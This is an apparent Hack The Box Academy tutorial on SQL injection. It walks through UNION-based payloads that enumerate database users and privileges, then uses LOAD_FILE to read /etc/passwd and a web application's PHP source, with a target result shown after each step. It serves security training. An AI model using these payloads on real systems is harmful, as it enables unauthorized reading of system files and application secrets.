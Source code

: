 In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

---

## Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

#### DB User

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

Code: sql

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

Code: sql

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

Code: sql

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:

   

![](https://academy.hackthebox.com/storage/modules/33/db_user.jpg)

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

#### User Privileges

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

Code: sql

```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:

Code: sql

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

Code: sql

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

   

![](https://academy.hackthebox.com/storage/modules/33/root_privs.jpg)

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

Code: sql

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

Code: sql

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

   

![](https://academy.hackthebox.com/storage/modules/33/root_privs_2.jpg)

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

---

## LOAD_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

Code: sql

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

Similar to how we have been using a `UNION` injection, we can use the above query:

Code: sql

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

   

![](https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png)

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

---

## Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

Code: sql

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

   

![](https://academy.hackthebox.com/storage/modules/33/load_file_search.png)

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

![load_file_source](https://academy.hackthebox.com/storage/modules/33/load_file_source.png)

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.

